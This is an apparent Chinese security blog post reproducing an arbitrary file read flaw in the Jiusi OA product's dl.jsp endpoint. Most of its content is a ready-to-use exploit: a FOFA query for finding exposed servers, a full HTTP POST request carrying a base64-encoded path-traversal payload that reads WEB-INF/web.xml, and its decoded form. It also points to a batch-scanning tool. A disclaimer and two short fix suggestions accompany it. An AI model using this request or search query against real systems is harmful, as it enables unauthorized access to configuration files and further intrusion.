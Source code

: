 #  【漏洞复现】九思OA dl任意文件读取漏洞   
原创 清风  白帽攻防   2024-11-22 01:07  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
九思OA产品由北京九思协同软件有限公司（简称九思软件）研发，专为企事业单位和政府机关提供高端协同办公解决方案，助力客户实现信息化、数字化及智能化转型。该产品融合多种管理理念与OA接口技术，旨在帮助企业打破管理壁垒、整合信息资源，打造高效、规范、实时且低成本的管理体系，支持一体化的技术架构。九思OA以“管理利器，释放组织潜能”为宗旨，为客户提供优质的解决方案、产品和服务，助力构建有序、灵活、高效、开放且具凝聚力的管理和技术支持环境。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0d6tiaoKcPPv7B61WepW7tF99jbbrjaOZrf6pycaibEp1Ut9Xu5vJibBrmBn4IxxyDhVTxMrT4tibF1GQ/640?wx_fmt=png&from=appmsg "")  
漏洞描述  
  
九思OA系统在dl.jsp接口处存在任意文件读取漏洞，攻击者可以利用该漏洞访问系统的关键文件，如配置文件，从而使网站处于极高的安全风险之中，严重影响系统的安全性，增加遭受进一步攻击的可能性。  
fofa语法```
body="/jsoa/login.jsp"
```  
漏洞复现```
POST /jsoa/dl.jsp?JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
```  
```
JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h
base64解密：&FileName=../../../WEB-INF/web.xml&path=/a
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0d6tiaoKcPPv7B61WepW7tF9XK8P444Yc89GwIanib4HnYBjhzmr0o110Zv4gNHxm7xwv8Fjch7CtGw/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0d6tiaoKcPPv7B61WepW7tF904SJibPvcJtufDmI8ZPMKm40P8M4sYWqTPonNujwA1CblanvicjiarKOA/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
  
  
1、对用户传入的参数进行限制。  
  
2、关闭互联网暴露面或接口设置访问权限。  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
